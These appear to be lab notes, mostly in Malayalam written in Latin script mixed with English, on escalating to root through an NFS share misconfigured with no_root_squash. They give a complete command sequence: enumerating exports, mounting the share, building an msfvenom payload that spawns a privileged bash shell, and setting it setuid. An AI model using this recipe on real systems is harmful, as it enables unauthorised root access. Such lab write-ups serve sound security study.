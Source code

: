 Network File System - we also call it as sun NFS.nfs use chyunath remote server il irikuna files ne access chyanum store chyanum aan.youtube il nokiyapol oruthan paranjath nfs inekal better smb/samba aan enan.linux to linux enterprise organizations in nfs aan better.in lab ilek veram --
NFS vazhi namuk nammude system thilek share mount chyam from the linux server.so mount chyththin shesham aa mount chytha share il namude local system thil ninum root user aayi oru file undakiyal aa file server ilum root owner/power il thane run aakum.so namal undakuna file malicious aanengil ath aa nfs ine bhadhikum.ith prevent chyan nfs root_squash use chyunu.root_squash prevents a local root user to create a file as owner of root.so whenever we make a file as root on our local system and if root_squash is enables in the configuration of that particular share then we wont be able to utilize that file that we created.bqz the user group of that particular file is going to be a nobody.root_squash simply changed the owner of the particular file to nobody and it will make that file useless and we wont be able to utilize it.
          pakshe ithupole thane no_root_squash um und.in a misconfigured nfs share if
no_root_squash is enabled then opposite will happen.athayath root user aayi file undakiyal nfs server ilum ath root aayi thane varum.so ith ariyan nfs inte misconfiguration file nokanam:
   -->cat /etc/exports
ithil nokumbol kanan sathikunath /tmp directory il no_root_squash enn kanam.so athinartham ee share vulnerable aanu karanam ith musconfigured aayi aan kidakunath.so namuk ee /tmp directory namude kali ilek mount chyam
aadyam namude kali il roo user aakuka enit ee server il ninum enthoke share available aan mount chyan enn nokanam
     -->showmount -e [target ip]
apol result il kanam /tmp enn.so it is confirmed namuk ith localsystem ilek aakamen.so aadyam oru file undakanam enit ee share mount chyam
            -->mkdir /tmp/nfs
			-->cd /tmp
			-->mount -o rw,vers=2 [target ip]:/tmp /tmp/nfs
			-->cd /tmp/nfs
			-->ls -ls
namuk kanam aa share il ulla files.ithupole namude target machine ilum poi nokuka -->cd /tmp enn so avidem ividem ulla files onn thane enn kanam.so athinartham namal correct aayi share mount chythu ennan.
ini msf venom use chyth payload undakuka.enit athin permission kodukanam.enit ath target machine inl poi execute chythamathi aayikolum
      -->msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf
	  -->chmod +xs /tmp/nfs/shell.elf
	  -tager machine il -->/tmp/shell.elf
	  >whoami        //root